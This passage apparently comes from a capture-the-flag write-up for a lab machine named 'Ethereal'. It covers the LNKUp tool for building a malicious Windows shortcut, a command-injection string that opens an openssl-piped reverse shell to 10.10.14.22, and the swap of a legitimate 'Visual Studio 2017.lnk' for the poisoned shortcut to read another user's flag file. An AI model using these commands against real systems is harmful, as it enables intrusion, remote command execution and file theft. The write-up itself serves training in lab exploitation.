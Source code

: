 Alans note made it sound like this is a shared link file that everyone using thie machine should use, we have seen in the past that sometimes CTFs will have scheduled tasks or crons that will run executables at intervals as certain users as a way to become that user.

Reading up on the various methods a .lnk file can be used to an attackers advantage we try a few reverse shell payloads, but none of them work, then we come across the tool [LNKUp](https://github.com/Plazmaz/LNKUp) which says it can be used to exfiltrate files.

So clone and install any requirements.

From there after reading the readme we can see the syntax follows:
```
lnkup.py --host localhost --type ntlm --output out.lnk --execute "shutdown /s"
```

We have a working pseudo shell command that we are currently using, so lets replace the `shutdown /s` with that and leave everything else as it is:
```
python generate.py --host localhost --type ntlm --output out.lnk --execute 'type C:\users\jorge\desktop\user.txt > C:\users\public\desktop\shortcuts\thoseguys.txt'
```

> We took a few stabs in the dark at this process and tried to generate lnk files for each different user to see if they had a user.txt on their desktop, turns out the flag is on jorge's desktop.

Now we need to get that lnk file on the target. To do that we can use input/output redirection in the same way we have done with nc:
```
Terminal1: openssl s_server -quiet -key key.pem -cert cert.pem -port 73
Terminal2: openssl s_server -quiet -key key.pem -cert cert.pem -port 136 < out.lnk
|| "C:\Program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.14.22:73 | cmd.exe | "C:\Program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.14.22:136 > "c:\users\public\desktop\shortcuts\thoseguys.lnk"
```

![231276608.png]({{site.baseurl}}/Images/Ethereal/231276608.png)

![231440503.png]({{site.baseurl}}/Images/Ethereal/231440503.png)

Once the malicious lnk is on the box, its time to replace the legitimate lnk with our malicious one:
```
Terminal 1: openssl s_server -quiet -key key.pem -cert cert.pem -port 73
copy /Y "C:\users\public\desktop\shortcuts\thoseguysu.lnk" "C:\users\public\desktop\shortcuts\Visual Studio 2017.lnk"

Website: || "C:\Program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.14.22:73 | cmd.exe | "C:\Program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.14.22:136

Terminal 2: openssl s_server -quiet -key key.pem -cert cert.pem -port 136
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>copy /Y "C:\users\public\desktop\shortcuts\thoseguys.lnk" "C:\users\public\desktop\shortcuts\Visual Studio 2017.lnk"
        1 file(s) copied.
```
